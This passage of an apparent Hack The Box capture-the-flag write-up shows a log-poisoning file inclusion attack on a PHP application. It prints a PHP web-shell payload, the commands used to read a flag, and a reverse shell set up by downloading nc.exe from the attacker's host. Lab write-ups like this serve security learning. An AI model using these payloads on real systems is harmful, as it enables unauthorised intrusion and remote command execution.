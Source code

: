 In that case, we decided to poison the access logs and make the application include it to execute arbitrary PHP code. 

As only the requested path was reflected on the access logs, we poisonned the logs by using PHP shorter tags with a spaceless payload:


```bash
GET /?path=<?=die(shell_exec($_GET['cmd']));?> HTTP/1.1
Host: 10.129.164.169:8080
```

We could then execute arbitrary commands by making the application include the poisoned logs:

```bash
$ curl 'http://10.129.95.158:8080/process.php?path=C:/Apache24/logs/access.log&cmd=whoami' -s | tail -n1

10.10.14.65 - - [26/Jul/2021:15:42:40 -0700] "GET /process.php?path=fire\dev
```

From there, we retrieved the user flag:

```bash
GET /process.php?path=C:/Apache24/logs/access.log&cmd=type+C:\Users\dev\Desktop\user.txt HTTP/1.1
Host: 10.129.164.169:8080

HTTP/1.1 200 OK
Date: Sat, 24 Jul 2021 14:08:58 GMT
Server: Apache/2.4.48 (Win64) PHP/8.0.7
X-Powered-By: PHP/8.0.7
Content-Length: 6217
Connection: close
Content-Type: text/html; charset=UTF-8
[...]
10.10.14.65 - - [24/Jul/2021:07:03:50 -0700] "GET /process.php?path=HTB{DoN7_S7e4L_My_N7lm}
```

### Root flag

Before searching for the next steps, we launched a reverse shell by downloading and executing a pre-built netcat:

```
$ python3 -m http.server 8080 --bind 10.10.14.65
Serving HTTP on 10.10.14.65 port 8080 (http://10.10.14.65:8080/) ...
10.129.95.158 - - [27/Jul/2021 00:47:57] "GET /nc.exe HTTP/1.1" 200 -


GET /process.php?path=C:/Apache24/logs/access.log&cmd=<@urlencode>powershell curl http://10.10.14.65:8080/nc.exe -o nc.exe<@/urlencode> HTTP/1.1
Host: 10.129.164.169:8080
     
GET /process.php?path=C:/Apache24/logs/access.log&cmd=<@urlencode>nc.exe 10.10.14.65 9999 -e powershell.exe<@/urlencode> HTTP/1.1
Host: 10.129.164.169:8080


$ nc -nlvp 9999
listening on [any] 9999 ...
connect to [10.10.14.65] from (UNKNOWN) [10.129.95.158] 49676
Windows PowerShell 
Copyright (C) Microsoft Corporation. All rights reserved.

PS C:\Apache24\htdocs> 
```
